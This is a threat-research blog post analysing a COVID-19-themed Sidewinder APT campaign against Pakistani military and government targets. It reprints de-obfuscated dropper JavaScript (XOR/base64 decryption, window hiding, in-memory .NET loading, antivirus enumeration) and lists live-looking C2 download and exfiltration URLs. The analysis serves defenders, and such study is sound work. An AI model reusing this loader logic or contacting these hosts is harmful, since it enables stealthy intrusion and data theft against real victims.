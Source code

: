 ```yaml
---
layout: post
title: "Sidewinder: COVID-19 Themed Attack Campaign"
date: 2020-04-10 06:00:00 +0530
categories: ["threatresearch"]
tags: ["sidewinder","rattlesnake","india","pakistan","covid19","apt"]

---
```


Cyber-criminals and nation-backed threat actors are highly utilizing the COVID-19 pandemic as a lure to gain access to critical infrastructure inside organizations.

## Background
Sidewinder a.k.a Rattlesnake is believed to be an Indian state-backed APT group. The threat group actively conducts operations targeting military and government infrastructure in Pakistan and China and is believed to be operating since 2012.

## Source of Discovery
The malware sample discovery belongs to the [__RedDrip__](https://twitter.com/RedDrip7) Team who shared two VirusTotal reports.

- [__966029e.hta__](https://www.virustotal.com/gui/file/3d5f133790f807270f6a64743cb593673f820bca4aba406ee08fda1429a340bd/detection)
- [__Cb2e3e0[1].hta__](https://www.virustotal.com/gui/file/d302e75752341090fcc9a04bdf8ae8300cc4746b2c4abf7539daafaae275c1f0/detection)

and an individual researcher [__Timele12138__](https://twitter.com/Timele9527) who shared two spearphishing documents.

- [__Pak_Army_Deployed_in_Country_in_Fight_Against_Coronavirus.pdf.lnk__](https://www.virustotal.com/gui/file/9b0b837e2c4c06c0754824282b9f39dab7ab5681ff118ca6a6f6e548df13dfd2/detection)
- [__Additional_CSD_Rebate.pdf.lnk__](https://www.virustotal.com/gui/file/f8b053e32eed9a5e814c89eec50e743a906f1aadc7a6f58e25f0410863c5ec4a/detection)

## Intrusion Point
The initial intrusion point of the attack is a spear-phishing email sent to the target and contains exploit CVE-2017-11882 as RTF object. The email contains an executable .lnk file that fakes itself as a PDF. The victim tries to open the PDF and the malicious .lnk file unintentionally gets executed.

<div><center><img src="/assets/img/posts/2020-04-21-lnk-file.png" title="Spear-Phishing .lnk File"></center></div>
<br>
The malicious .lnk file contains the address of command and control domain. As soon as the file is executed, the embedded command is executed which downloads the stage-1 .hta dropper from `http://www.nrots.net/images/5328C28B/15936/11348/7c8d64e9/e17e25e`.

## Malware Analysis
The malware dropper 966029e.hta contains highly obfuscated JavaScript code which can be divided into 4 blocks for understanding. Each block of code is meant for different purposes during the first phase of attack.

### Decryption Block
The very first function is meant for decoding any base64 string passed to it. The second function consumes an XOR key and a base64 string resulting in decrypted payload. The third function takes a base64 string and sends it to the second function to XOR with a key that is stored in the variable "keeee". Doing an XOR of the hardcoded base64 string "fGNWc3tkXnB0Zg==" with the hardcoded key "MUgF" results in the value of keeee "1615619693" which will be used to de-obfuscate the embedded payload. As soon as the .hta executes, the window size is changed to (0,0) and moved out of the visible screen i.e. (-1000,-1200) to hide the window from the targeted user.

```javascript
function YiJr(str){
    var b64 = "ABCDEFGHIJKLMNOPQRSTUVWXY"+"Zabcdefghijklmnopqrstuvwxyz0123456789+/="
    var b, result = "",
       r1, r2, i = 0;
    for (; i < str.length;) {
        b = b64.indexOf(str.charAt(i++)) << 18 | b64.indexOf(str.charAt(i++)) << 12 |
            (r1 = b64.indexOf(str.charAt(i++))) << 6 | (r2 = b64.indexOf(str.charAt(i++)));
        result += r1 === 64 ? vLpfue(b >> 16 & 255) :
            r2 === 64 ? vLpfue(b >> 16 & 255, b >> 8 & 255) :
            vLpfue(b >> 16 & 255, b >> 8 & 255, b & 255);
    }
    return result;
    };
function xStrAmh (key, bytes){
    var res = [];
    for (var i = 0; i < bytes.length; ) {
        for (var j = 0; j < key.length; j++) {
            res.push(vLpfue((bytes.charCodeAt(i)) ^ key.charCodeAt(j)));
            i++;
            if (i >= bytes.length) {
                j = key.length;
            }
        }
    }
    return res.join("")
}
function rBEokCwZ(bsix){
    return xStrAmh(keeee,YiJr(bsix))
}
var keeee = xStrAmh("MUgF",YiJr("fGNW"+"c3tk"+"XnB0"+"Zg=="));
window.resizeTo(0,0);
window.moveTo(-1000, -1200);
```

### Memory Writing Block
The decryption block decrypts the embedded binary which is loaded into the memory by the memory writing block of the JS script. The following code was decrypted using the functions from the decryption block:

```javascript
function Func4(b) {
    var enc = new ActiveXObject1("System.Text.ASCIIEncoding");
    var length = enc["GetByteCount_2"](b);
    var ba = enc["GetBytes_4"](b);
    var transform = new ActiveXObject1("System.Security.Cryptography.FromBase64Transform");
    ba = transform["TransformFinalBlock"](ba, 0, length);
    var ms = new ActiveXObject1("System.IO.MemoryStream");
    ms.Write(ba, 0, (length / 4) * 3);
    ms.Position = 0;
    dash = ms;
}
```

### Enumeration Block
The enumeration block enumerates the victim machine in an attempt to find the current version of .NET framework installed on it. The following code was decrypted using the functions from the decryption block:

```javascript
var shells = new ActiveXObject1("WScript.Shell");
function tPYpmq(){
    var net = "";
    var FSO = new ActiveXObject1("Scripting.FileSystemObject");
    var folds = FSO.GetFolder(FSO.GetSpecialFolder(0)+"\Microsoft.NET\Framework\ ").SubFolders;
    e = new Enumerator(folds);
    var folder;
    e.moveFirst();   
    while (e.atEnd() == false)  
    {  
        folder = e.item();
        var files = folder.files;
        var fileEnum = new Enumerator(files);
        fileEnum.moveFirst(); 
        while(fileEnum.atEnd() == false){
        if(fileEnum.item().Name == "csc.exe")
        {
            if(folder.Name.substring(0,2)=="v2")
                return "v2.0.50727";
            else if(folder.Name.substring(0,2)=="v4")
                return "v4.0.30319";
            }
            fileEnum[moveNext](); 
        }
        e[moveNext]();
    }
    return folder.Name;
}
ver = v2.0.50727;
try {
    ver = Func5();
} catch(e) { 
    ver = "v2.0.50727";
}
```

### CnC Block
The CnC block collects information about installed anti-virus software and its current status of updates on the victim machine. This information is then used to craft a URL ```http://www.d01fa.net/plugins/16364/11542/true/true/``` to communicate with the command and control server and download the related payload.

```javascript
shells.Environment("Process")(COMPLUS_Version) = ver;;
    var objWMIService = GetObject("winmgmts:\\.\root\SecurityCenter2");
    var colItems = objWMIService.ExecQuery("Select * From AntiVirusProduct", null, 48);
    var objItem = new Enumerator(colItems); 
    var x = "";
    for (; !objItem.atEnd(); objItem[moveNext]()) {
    x += (objItem.item().displayName + " " + objItem.item().productState).replace(" ", "");
    }
    var stm = Func4(so.split(".").join(''));
    var fmt = new ActiveXObject1("System.Runtime.Serialization.Formatters.Binary.BinaryFormatter");
    var al = new ActiveXObject1("System.Collections.ArrayList");
    var d = fmt["Deserialize_2"](dash);
    al.Add(undefined);
    var o = d["DynamicInvoke"](al.ToArray())["CreateInstance"](ec);
    if(x && x.length){
        x = x + "_stg1";
    }
    var aUrl = "http://www.d01fa.net/plugins/16364/11542/true/true/"+x;
```

### Embedded Binary & Decoy
Within the dropper, two variables contain huge encrypted strings. One of the variables contains the stage-2 binary that is decrypted and written directly into the memory. The second variable contains content of a decoy PDF which is decrypted and shown to the victim. Analysis of the binary embedded in the former variable reveals its original name as ___LinkZip.dll___. The binary is a [__DotNetToJScript__](https://github.com/tyranid/DotNetToJScript) converter written by [James Forshaw](https://twitter.com/tiraniddo).

<div><center><img src="/assets/img/posts/2020-04-21-embedded-binary.png" title="Embedded DotNetToJScript Binary"></center></div>
<br>
The dropper also downloads a variant of the malware named [file.hta](https://www.virustotal.com/gui/file/34ab2e72624e808efa66cccb9ea2ec086b02927165dfc00d477cf573ffff2761/detection) for persistence. The decryption mechanism of the __file.hta__ is the same as the .hta dropper and is responsible for dropping the following binaries `C:\ProgramData\`

- [__Duser.dll__](https://www.virustotal.com/gui/file/c69456894fb70e6dfb4ef38bc926f8fc90a82a7b9427f429581a7cee22e09411/detection) - XOR decryptor for file containing the RAT
- SOHYXY.tmp - Encrypted payload decrypted by Duser.dll
- rekeywiz.exe - Windows legit binary
- rekeywiz.conf - configuration file for rekeywiz.conf

_Duser.dll_ decrypts the file named _"SOHYXY.tmp"_ and deploys the RAT for performing reconnaissance on the victim machines. The commands issued by the C2 server are stored in an encrypted file named [__font__](https://www.virustotal.com/gui/file/5e20dcef43ed82e97b881220f0e6971af364874f42849cea6e90030ebbd69f6c/detection). After decryption using the already discussed methodology, the C2 commands are revealed indicating that the stolen information is sent to `cloud-apt.net`
<br>
<br>

---
[___IOCs and YARA Signatures___](https://github.com/Ebryx/IOCs/blob/master/SideWinder/yara.yar)
